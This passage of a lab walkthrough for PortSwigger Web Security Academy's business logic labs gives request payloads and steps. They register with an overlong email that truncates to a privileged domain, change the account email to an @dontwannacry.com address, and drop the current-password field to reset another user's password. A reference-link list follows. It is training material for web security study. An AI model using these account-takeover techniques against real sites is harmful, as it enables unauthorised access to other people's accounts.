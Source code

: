     (csrf=...&username=psycho&email=psychooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo@dontwannacry.com.exploit-<mail_domain>.web-security-academy.net&password=psycho)


    Your email is: psychooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo@dontwannacry.com
    ```

### [Making flawed assumptions about user behavior][business_logic_3]

1. #### **Inconsistent security controls**

    - Open the **Email client**.
    - Register an account and take note of the URL flow and the parameters sent.

    ```plaintext
    ...
    https://<lab_url>/register  POST    (csrf=...&username=attacker&email=attacker%40exploit-<lab_domain>.web-security-academy.net&password=attacker)
    ...
    ```

    - Login and observe that there's a form to change your **Email**.
    - Change your **Email** to an any arbitrary **@dontwannacry.com** email.

    ```plaintext
    https://<lab_url>//my-account/change-email      POST    (email=attacker%40dontwannacry.com&csrf=...)


    Your email is: attacker@dontwannacry.com
    ```

2. #### **Weak isolation on dual-use endpoint**

    - After login interact with the functionalities of the site and take note of the URL flow and the parameters sent.

    ```plaintext
    ...
    https://<lab_url>/my-account/change-email       POST    (email=psycho%40dontwannacry.com.com&csrf=...)
    ...
    https://<lab_url>/my-account/change-password    POST    (csrf=...&username=wiener&current-password=peter&new-password-1=psycho&new-password-2=psycho)
    ...
    ```

    - Send the **/change-password POST** request to the **Repeater**.
    - Delete all the parameters one by one while you repeat the request and see what happens  
    (notice that the **current-password** is not required).

    ```plaintext
    https://<lab_url>/my-account/change-password    POST    (csrf=...&username=wiener&new-password-1=psycho&new-password-2=psycho)
    ```


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind